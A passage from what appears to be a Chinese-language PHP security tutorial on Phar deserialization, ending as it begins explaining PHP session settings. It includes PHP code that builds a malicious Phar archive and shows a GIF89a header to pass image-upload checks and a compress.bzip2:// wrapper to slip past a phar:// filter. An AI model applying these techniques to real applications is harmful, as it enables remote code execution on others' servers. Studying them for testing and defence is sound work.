 那么这样如何利用呢？

结合前面的POP利用，应该不难得出：

```php
<?php
class Test
{
}
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$o = new Test();
$o->data = "echo 'RCE';";
$phar->setMetadata($o);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```

上传Phar，并且传入`file=phar://phar.phar`，这就可以完成一次反序列利用。

假如只有图片上传接口时，这个时候我们可以自己在文件中添加对应的头部，这不会影响正常的Phar解析。

例如：

```php
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
```

那如果，现在我们传入的file不允许以phar开头呢？

当然也是有办法的：`file=compress.bzip2://phar://phar.phar`

#### Session反序列化

在开始前，需要简单介绍一下PHP的Session机制。

##### PHP的Session机制

在Web Application中，会话控制或者说会话保持是一个非常重要的操作，也是授权体系的重要需求。

PHP使用`Session_start`创建一个唯一的`Session ID`，并且自动通过HTTP响应头设置其对应的Cookie；创建是在用户请求中的Cookie没有对应的`Session ID`才会创建的。

> 在上面的机制下，用户可以自行设置对应的Session ID。

在Session中，有几个重要的参数：

|              参数               |                        含义                        |
| :-----------------------------: | :------------------------------------------------: |
|      session.save_handler       |            session保存形式、默认为files            |
|        session.save_path        |                  session保存路径                   |
|    session.serialize_handler    |       session序列化存储所用处理器，默认为PHP       |
| session.upload_progress.cleanup | 一旦读取了所有POST数据，立即清除进度信息。默认开启 |
| session.upload_progress.enabled |    将上传文件的进度信息存在session中。默认开启     |

